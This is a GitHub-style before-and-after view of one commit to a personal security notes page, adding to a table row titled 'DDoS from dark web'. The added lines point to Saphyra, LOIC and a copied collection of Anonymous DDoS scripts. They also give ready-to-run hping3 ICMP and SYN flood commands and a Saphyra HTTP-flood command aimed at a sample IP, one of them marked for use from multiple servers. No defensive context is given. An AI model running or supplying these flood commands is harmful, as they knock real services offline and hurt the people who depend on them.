

Before and after one commit to florist-notes/linux_d, a Markdown page: notes/SECURITY.MD, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
linux sec

```diff
--- a/notes/SECURITY.MD
+++ b/notes/SECURITY.MD
@@ -404,10 +404,20 @@ $ steghide extract -sf image.jpg <br />
 
 <tr>
 <th>DDoS from dark web</th>
-<td>Distributed Denial of service<br /></td>
+<td>Distributed Denial of service & botnet<br /></td>
 <td>
 
+[tor browser](https://www.torproject.org/download/) <br />
+[saphyra](https://securityintelligence.com/dissecting-hacktivists-ddos-tool-saphyra-revealed/) : http flood attack : HTTP get<br />
+[low orbit ion cannon](https://en.wikipedia.org/wiki/Low_Orbit_Ion_Cannon)<br />
+All the DDoS scripts from [H1R0GH057/Anonymous](https://github.com/H1R0GH057/Anonymous) are also in scripts/security/[ddos](./scripts/security/ddos/)<br />
 
+$ sudo hping3 -1 --flood 10.7.1.50 (ping as dos)<br />
+
+ICMP Flood / ping of death : but ICMP or ping response can be disabled.<br />
+
+$ sudo hping3 -d 200 -p 80 -S --flood 10.7.1.50 (from multiple servers)<br />
+$ python saphyra.py http://10.7.1.50 <br />
 <br /></td>
 </tr>
 
```
